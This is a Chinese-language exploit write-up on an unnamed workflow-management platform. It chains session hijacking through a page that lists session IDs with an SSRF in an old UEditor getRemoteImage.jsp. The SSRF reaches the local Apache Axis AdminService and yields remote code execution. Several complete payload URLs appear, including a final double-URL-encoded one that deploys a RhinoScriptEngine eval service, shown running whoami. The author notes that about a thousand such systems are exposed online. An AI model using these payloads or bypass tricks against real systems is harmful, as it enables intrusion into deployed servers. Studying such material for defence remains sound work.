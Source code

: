### 某通用流程化管控平台SSRF到RCE之旅

*前言*
====

某一天7iny好兄弟找到一套源代码(安装包)，看了一下不少问题。就从这套系统代码开始渗透吧。看了一下fofa,有一千多个。  
![img](https://shs3.b.qianxin.com/butian_public/f402ff9b217b16298ad2eb229a06b56c4.jpg)

### step1

收到源码后发现几个有意思的功能：

1、`/manage/index.jsp`直接列举出来了所有当前的`sessionID`。  
有了session，我们只需要找到在线的session然后替换我们当前的seesionID可既可以登录当前系统

![img](https://shs3.b.qianxin.com/butian_public/fdb72f2c476e5a01007de407e9d0de8ae.jpg)  
好家伙。这么多用户，我们可以登录去用户系统了。打了渗透的大门。

![img](https://shs3.b.qianxin.com/butian_public/f6d284cff88c877a8b37f3c85585b0989.jpg)

2、进去后发现还有个路径`/mobile/phone/main.jsp`就是手机端的主页面  
![img](https://shs3.b.qianxin.com/butian_public/f005089ccfb884a683bc3e4dd69e1a87c.jpg)  
还有一些报表的页面，  
![img](https://shs3.b.qianxin.com/butian_public/ff5d1c8f6182e5c8015e176fad59fe8bb.jpg)  
进去后很可惜发现没有可RCE的点。

### step2

1. 发现了一个AXIS服务。  
    ![img](https://shs3.b.qianxin.com/butian_public/f99356c688a37b2acf5c91c5b2565f343.jpg)  
    axis&lt;=1.4版本存在RCE，尝试使用已知payload打一下，毫无意外的remote user access is not allowed.

![img](https://shs3.b.qianxin.com/butian_public/fd5cdd93398b951ae326eea3b9c2c05cf.jpg)  
也就是说只需要找到一个SSRF，本地调用即可。  
7iny帮我找到一个利用点，`/common/ueditor1_3_5-utf8/` 发现一个ueditor

![img](https://shs3.b.qianxin.com/butian_public/f540ce390747d20c5ce15f78bc3dc7d87.jpg)

这个编辑器存在一个SSRF。  
`/common/ueditor1_3_5-utf8/jsp/getRemoteImage.jsp?upfile=`  
使用AXIS的get型payload尝试一下，发现图片类型不正确。  
![img](https://shs3.b.qianxin.com/butian_public/f25735594caba80ad3999acfb9a6761e3.jpg)

### step3

知道是AXIS,有`getRemoteImage.jsp`的源码，本地搭建一个环境来debug,开启debug模式`./catalina.sh jpda start`

#### *第一次尝试(先盲猜一下)*：

既然是需要结尾需要一个.jpg。我们在URL后直接加.jpg结尾。也就是：&amp;xx=xx.jpg

```php
http://127.0.0.1:8080/axis/services/AdminService?method=!--%3E%3Cdeployment%20x mlns%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2F%22%20x mlns%3Ajava%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%20name%3D%22ServiceFactoryService%22%20provider%3D%22java%3ARPC%22%3E%3Cparameter%20name%3D%22className%22%20value%3D%22org.apache.axis.client.ServiceFactory%22%2F%3E%3Cparameter%20name%3D%22allowedMethods%22%20value%3D%22*%22%2F%3E%3C%2Fservice%3E%3C%2Fdeployment&xx=xx.jpg
```

发现还是被ban。还是提示图片类型不正确。预料之中。

##### *第二次尝试*：

看一下remote.jsp的源码。很简单，就是远程下载一个图片，依次遍历每个参数，并且判断是不是以".gif" , ".png" , ".jpg" , ".jpeg" , ".bmp"这些结尾。如果不是图片或者不正确则报错。

![img](https://shs3.b.qianxin.com/butian_public/f266e8f3ecd7624cc3fca45ce020f2212.jpg)

![img](https://shs3.b.qianxin.com/butian_public/fed2e17c8c334be7c3a28302d8522fb1a.jpg)  
现在尝试一下，直接接一个.jpg。看一下是不是爆出"请求地址头不正确"，这个我们预期的结果。

```php
http://127.0.0.1:8080/axis/services/AdminService?method=!--%3E%3Cdeployment%20x mlns%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2F%22%20x mlns%3Ajava%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%20name%3D%22ServiceFactoryService%22%20provider%3D%22java%3ARPC%22%3E%3Cparameter%20name%3D%22className%22%20value%3D%22org.apache.axis.client.ServiceFactory%22%2F%3E%3Cparameter%20name%3D%22allowedMethods%22%20value%3D%22*%22%2F%3E%3C%2Fservice%3E%3C%2Fdeployment.jpg
```

![img](https://shs3.b.qianxin.com/butian_public/feca46c949263eaa56263d0e919f0f51e.jpg)  
遗憾的是并不是预期的结果，而是报了一个空指针，事实上，看remote.jsp的代码是不会有空指针爆出来，那就只能是框架爆出来的，既然是框架一般而言是有不合法的字符出现会出现此类的情况。  
最后发现是%20,不能有空格，因为提交的是x ml格式的数据，里面的空格用来做字符的分割，既然不能有空格，那我们直接用换行%0d%0a，试试看是否可以。

```php
http://localhost:8080/remote.jsp?upfile=http://127.0.0.1:8080/axis/services/AdminService?method=!--%3E%3Cdeploymenta%0d%0axxx
```

发现还是空指针。后面通过尝试，只有%0d可以，%0a不行。是不是真的能否作为x ml的分隔符现在还不知道。![img](https://shs3.b.qianxin.com/butian_public/f0b9b1b82b6b87ee1cb5dd56dca2159be.jpg)

##### *第三次尝试：*

开始绕过图片为结尾的后缀，在get类型的payload中，发现开头有一个!--&gt;，debug一下跟到代码处，发现是为了做一个拼合。  
![img](https://shs3.b.qianxin.com/butian_public/f8b55e18383470153c9008ef9d8ee4c89.jpg)  
代码如下：  
![img](https://shs3.b.qianxin.com/butian_public/f899237a1a5c28cc4c7351ddf3a5387ca.jpg)  
最终拼接后为：  
![img](https://shs3.b.qianxin.com/butian_public/f6a1d8c72f54def8da82d8a008af5b0ba.jpg)  
刚好把第一个payload注释，第二个生效。现在我们只需要做填空题。在结尾拼接就行`<xxx.jpg></xxx.jpg`即可，当然结尾的&gt;会给我们自动闭合，刚好以.jpg结尾，所以新的payload如下：  
所以我们只需要在结尾加上`><xx.jpg></xx.jpg` 即可  
![img](https://shs3.b.qianxin.com/butian_public/fa00e03e67f090745c254742de0726e0e.jpg)

使用%0d，以及我们拼接的xx.jpg payload来提交，debug后发现%0d后的东西丢了

```php
http://localhost:8080/remote.jsp?upfile=http://localhost:8080/axis/services/AdminService?method=!--%3E%3Cdeployment%0dx mlns%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2F%22%0dx mlns%3Ajava%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%0dname%3D%22m00gege%22%0dprovider%3D%22java%3ARPC%22%3E%3Cparameter%0dname%3D%22className%22%0dvalue%3D%22com.sun.s cript.j avas cript.Rhinos criptEngine%22%0d%2F%3E%3Cparameter%0dname%3D%22allowedMethods%22%0dvalue%3D%22e val%22%0d%2F%3E%3CtypeMapping%0ddeserializer%3D%22org.apache.axis.encoding.ser.BeanDeserializerFactory%22%0dtype%3D%22java%3Ajavax.s cript.Simples criptContext%22%0dqname%3D%22ns%3ASimples criptContext%22%0dserializer%3D%22org.apache.axis.encoding.ser.BeanSerializerFactory%22%0dx mlns%3Ans%3D%22urn%3Abeanservice%22%0dregenerateElement%3D%22false%22%3E%3C%2FtypeMapping%3E%3C%2Fservice%3E%3C%2Fdeployment%3E%3Cxx.jpg%3E%3C/xx.jpg
```

访问  
![img](https://shs3.b.qianxin.com/butian_public/f1fc8812d296582f71f099bd4e4f98e20.jpg)

##### *第四次尝试：*

咋办??  
![img](https://shs3.b.qianxin.com/butian_public/f000ea486d4ce27b178a548862e87ceff.jpg)  
最后灵机一动，试一下urlencode双重编码,成功了。

```php
http://localhost:8080/remote.jsp?upfile=http://127.0.0.1:8080/axis/services/AdminService?method=!--%253E%253Cdeployment%250dx mlns%253D%2522http%253A%252F%252Fx ml.apache.org%252Faxis%252Fwsdd%252F%2522%250dx mlns%253Ajava%253D%2522http%253A%252F%252Fx ml.apache.org%252Faxis%252Fwsdd%252Fproviders%252Fjava%2522%253E%253Cservice%250dname%253D%2522mxxgege%2522%250dprovider%253D%2522java%253ARPC%2522%253E%253Cparameter%250dname%253D%2522className%2522%250dvalue%253D%2522com.sun.s cript.j avas cript.Rhinos criptEngine%2522%250d%252F%253E%253Cparameter%250dname%253D%2522allowedMethods%2522%250dvalue%253D%2522e val%2522%250d%252F%253E%253CtypeMapping%250ddeserializer%253D%2522org.apache.axis.encoding.ser.BeanDeserializerFactory%2522%250dtype%253D%2522java%253Ajavax.s cript.Simples criptContext%2522%250dqname%253D%2522ns%253ASimples criptContext%2522%250dserializer%253D%2522org.apache.axis.encoding.ser.BeanSerializerFactory%2522%250dx mlns%253Ans%253D%2522urn%253Abeanservice%2522%250dregenerateElement%253D%2522false%2522%253E%253C%252FtypeMapping%253E%253C%252Fservice%253E%253C%252Fdeployment%253E%253Cxx.jpg%253E%253C%2Fxx.jpg

```

成功了，出现了我们预期的效果。  
![img](https://shs3.b.qianxin.com/butian_public/f426a60b0dea5349e0fe92f86820d58c5.jpg)  
成功注册服务  
![img](https://shs3.b.qianxin.com/butian_public/f417351c04962c527aae7cb8cd92761c6.jpg)

##### *第五次尝试：*

接下来，直接访问我们部署的服务即可。执行whoami。  
![img](https://shs3.b.qianxin.com/butian_public/f168d4022b4510631ae995647dc55ba51.jpg)

### *总结*

觉得这个漏洞可以作为CTF来出，挺有意思的一个漏洞，关键点，.jpg绕过，%20处理。